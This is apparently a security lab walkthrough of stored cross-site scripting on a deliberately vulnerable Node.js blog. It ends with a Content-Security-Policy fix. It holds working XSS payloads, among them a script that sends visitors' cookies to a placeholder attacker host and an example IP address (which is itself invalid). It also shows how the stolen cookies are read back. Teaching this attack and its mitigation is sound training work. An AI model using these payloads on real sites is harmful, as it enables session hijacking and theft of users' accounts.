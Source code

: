 # Let's try out Stored Cross-Site Scripting.

## EXPLORE

The rightmost browser window has a Public Blog Post Site.
To add a new post click the "Add" button and type in the new post content.
After the post is saved in the backend server a new entry in public Blog Post would appear with the content that we just provided.

You can explore and add more posts.

## Exploit

### Step 1:
Now to see if the input is not sanitized properly before storing it in the backend we type in the below code as input for the blog post.
```html
<script>alert('popup text')</script>
```
After you enter the above text you'll get a pop up with text "popup text", which indicates that this public Blog Post is vulnerable to executable javascript via public posts.

### Step 2
This Blog is Vulnerable to many exploits. We focus on Cookie Stealing.

next, to check if the public post has a users session we type the following text as a new blog post.

```html
<script>alert(document.cookie)</script>
```

After you enter the above text you'll see a pop with the cookie.

### Step 3
For Malicious attacker to exploit this vulnerability and save the session cookies of anyone who visits this public post we have to get the cookie and pass it to some hacker server that would store it.
To Simulate such an attack, replace {HACKER_SERVER_HOST} with the IP address of the terminals public IP and post it as a new blog post.

```
<script>document.write('<img src="http://{HACKER_SERVER_HOST}:5000/hacker_server/submit_cookie?cookie='+ escape(document.cookie) + '" />');</script>
```
for ex: 

```
<script>document.write('<img src="http://72.56.45.584:5000/hacker_server/submit_cookie?cookie='+ escape(document.cookie) + '" />');</script>
```

lets break the above text down
- document.write is going to dump it's content as plain text.
- img tag's src contains the endpoint where the hacker server is listening for incomming stolen cookie information.
- the query parameter 'cookie' is used and it's value is escaped to make the cookie value single query value in case the cookie value contains '&'.
- The img src url is going to save the cookie in a text file and serve the blog website an image.

### Step 4
After the above post have been published, anyone who'll visit the Public Blog Post would send their cookie information to hacker_server.
To verify the saved cookies type the following command in the terminal.
```
cat /app/hacker_server/cookies.txt
```
if this Public Blog Post would have had some sensitive user information or some monetary shopping transactions.
then the hacker would be able to [hijack the user session](https://www.netsparker.com/blog/web-security/session-hijacking/#:~:text=Session%20hijacking%20is%20an%20attack,ends%20when%20you%20log%20out.) and do all sorts of harm. 


## Mitigate
The Node.js Server for our Public Blog Post has No [Content-Security-Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP). To Enable the CSP do the following
  - navigate to /app/routes/index.js's line number 16 via.
  ```
  vim /app/routes/index.js +16
  ```
  - and uncomment the line with the following code
  ```js
  res.setHeader("Content-Security-Policy", "script-src 'self'");
  ```
  the above line restricts the browser to only execute javascript served from the site's own origin and blocks any inline javascript. Hence mitigating the XSS vulnerability.
